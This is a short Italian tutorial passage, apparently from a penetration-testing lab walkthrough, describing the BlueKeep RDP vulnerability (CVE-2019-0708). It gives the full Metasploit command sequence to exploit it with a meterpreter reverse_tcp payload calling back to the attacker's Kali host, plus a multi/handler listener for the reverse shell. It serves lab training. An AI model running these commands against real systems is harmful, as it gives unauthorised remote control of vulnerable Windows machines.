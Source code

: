 ## cve_2019_0708 BlueKeep
**BlueKeep** è una vulnerabilità critica che permette RCE senza autenticazione sfruttando un buffer overflow nel servizio RDP. Colpisce Windows XP, Server 2003, Windows 7 e Server 2008.

---

## Fase 6 – Exploiting di BlueKeep con Metasploit

Modulo di exploit:
`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`  
`set RHOSTS <IP>`  
`set RPORT 3389`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

⚠️ Estremamente instabile: usare solo in ambienti di test.

Per ricevere la reverse shell:
`use multi/handler`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

---
